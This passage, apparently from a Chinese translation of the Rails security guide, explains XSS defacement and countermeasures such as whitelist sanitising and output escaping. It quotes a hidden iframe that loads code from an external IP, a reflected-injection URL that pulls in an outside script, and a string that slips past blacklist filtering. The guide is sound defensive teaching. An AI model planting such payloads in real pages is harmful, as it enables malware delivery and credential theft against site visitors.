 在 cookie 中添加 `httpOnly` 标志可以规避这种攻击，这个标志可以禁止 JavaScript 读取 `document.cookie` 属性。IE v6.SP1、 Firefox v2.0.0.5、Opera 9.5、Safari 4 和 Chrome 1.0.154 以及更高版本的浏览器都支持 `httpOnly` 标志，Safari 浏览器也在考虑支持这个标志。但其他浏览器（如 WebTV）或旧版浏览器（如 Mac 版 IE 5.5）不支持这个标志，因此遇到上述攻击时会导致网页无法加载。需要注意的是，即便设置了 `httpOnly` 标志，通过 [Ajax](https://www.owasp.org/index.php/HTTPOnly#Browsers_Supporting_HttpOnly) 仍然可以读取 cookie。

<a class="anchor" id="defacement"></a>

##### 涂改信息

通过涂改网页信息，攻击者可以做很多事情，例如，显示虚假信息，或者诱使受害者访问攻击者的网站以窃取受害者的 cookie、登录用户名和密码或其他敏感信息。最常见的信息涂改方式是通过 iframe 加载外部代码：

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

这行代码可以从外部网站加载任何 HTML 和 JavaScript 代码并嵌入当前网站，来自黑客使用 [Mpack 攻击框架](http://isc.sans.org/diary.html?storyid=3015)攻击某个意大利网站的真实案例。Mpack 会尝试利用 Web 浏览器的安全漏洞安装恶意软件，成功率高达 50%。

更专业的攻击可以覆盖整个网站，也可以显示一个和原网站看起来一模一样的表单，并把受害者的用户名密码发送到攻击者的网站，还可以使用 CSS 和 JavaScript 隐藏原网站的正常链接并显示另一个链接，把用户重定向到假冒网站上。

反射式注入攻击不需要储存恶意代码并将其显示给用户，而是直接把恶意代码包含在 URL 地址中。当搜索表单无法转义搜索字符串时，特别容易发起这种攻击。例如，访问下面这个链接，打开的页面会显示，“乔治·布什任命一名 9 岁男孩担任议长……”：

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

<a class="anchor" id="cross-site-scripting-xss-countermeasures"></a>

##### 对策

TIP: 过滤恶意输入非常重要，但是转义 Web 应用的输出同样也很重要。

尤其对于 XSS，重要的是使用白名单而不是黑名单过滤输入。白名单过滤规定允许输入的值，反之，黑名单过滤规定不允许输入的值。经验告诉我们，黑名单永远做不到万无一失。

假设我们通过黑名单从用户输入中删除 `script`，如果攻击者注入 `<scrscriptipt>`，过滤后就能得到 `<script>`。Rails 的早期版本在 `strip_tags()`、`strip_links()` 和 `sanitize()` 方法中使用了黑名单，因此有可能受到下面这样的注入攻击：

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

这行代码会返回 `some<script>alert('hello')</script>`，也就是说攻击者可以发起注入攻击。这个例子说明了为什么白名单比黑名单更好。Rails 2 及更高版本中使用了白名单，下面是使用新版 `sanitize()` 方法的例子：

```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

通过规定允许使用的标签，`sanitize()` 完美地完成了过滤输入的任务。不管攻击者使出什么样的花招、设计出多么畸型的标签，都难逃被过滤的命运。

接下来应该转义应用的所有输出，特别是在需要显示未经过滤的用户输入时（例如前面提到的的搜索表单的例子）。使用 `escapeHTML()` 方法（或其别名 `h()` 方法），把 HTML 中的字符 `&`、`"`、`<` 和 `>` 替换为对应的转义字符 `&amp;amp;`、`&amp;quot;`、`&amp;lt;` 和 `&amp;gt;`。

<a class="anchor" id="obfuscation-and-encoding-injection"></a>

##### 混淆和编码注入
